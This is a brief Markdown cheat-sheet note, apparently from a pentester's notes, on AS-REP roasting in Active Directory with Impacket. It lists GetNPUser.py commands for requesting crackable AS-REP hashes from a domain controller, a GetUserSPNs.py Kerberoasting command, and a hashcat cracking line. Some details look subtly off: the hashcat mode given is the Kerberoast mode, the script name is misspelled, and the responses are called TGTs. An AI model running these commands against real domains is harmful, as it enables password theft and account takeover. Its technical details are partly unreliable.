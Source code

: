 Impacket’s GetNPUsers.py will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user’s password, which can then be cracked offline.

hashcat -m 13100

## used for: 
- Queries target domain for users with 'Do not require Kerberos                                                                                                
preauthentication' set and export their TGTs for cracking


## usage:  
```
GetNPUser.py DOMAIN.local/USERNAME PASSWORD or -no-pass 
GetNPUser.py -dc-ip IP 'DOMAIN' -request 
GetNPUser.py -dc-ip IP -request 'DOMAIN' -format hashcat  # dump
GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```
---
Tags: #AD #kerberos #impackets  #kerberos  #AS-REP_Roasting
Resources: [Impacket](https://github.com/fortra/impacket)